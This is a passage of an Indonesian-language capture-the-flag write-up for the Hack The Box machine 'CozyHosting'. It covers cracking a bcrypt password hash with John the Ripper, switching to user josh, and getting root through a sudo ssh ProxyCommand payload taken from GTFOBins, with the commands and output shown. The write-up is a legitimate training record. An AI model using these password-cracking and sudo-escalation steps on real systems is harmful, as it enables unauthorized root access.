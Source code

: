 ```sh
┌[parrot]─[03:56-10/09]─[/home/k1r4/Documents/exercise/HTB/Easy/CozyHosting]
└╼k1r4$john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
```
Dikarenakan saya tidak menemukan user `admin` dan `kanderson`, saya mencoba login menggunakan user `josh`

```sh
(remote) app@cozyhosting:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
```
Saya berhasil connect kedalam user `josh` dan mendapatkan flag user.txt
```sh
(remote) app@cozyhosting:/$ su josh
Password: 
josh@cozyhosting:~$ ls
user.txt
josh@cozyhosting:~$ cat user.txt 
3cbc3707136b3032418291fc37534790
```
##PRIVILAGE ESCALATION

Setelah melakukan berbagai cara, saya mendapatkan vuln untuk mendapatkan akses shell user `root`
```sh
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
Saya mencari referensi tentang kerentanan ssh, dan saya mendapatkan exploit tersebut di web [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo)
dan saya berhasil mendapatkan akses shell root menggunakan payload yang ada pada web tersebut, payloadnya cukup sederhana 😸

```sh
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# whoami
root
# cd /root	
# ls
root.txt
# cat root.txt
c9786844cc014fd8d4e776e5645f5e54
```
Sekian dari saya. Terimakasih 😸
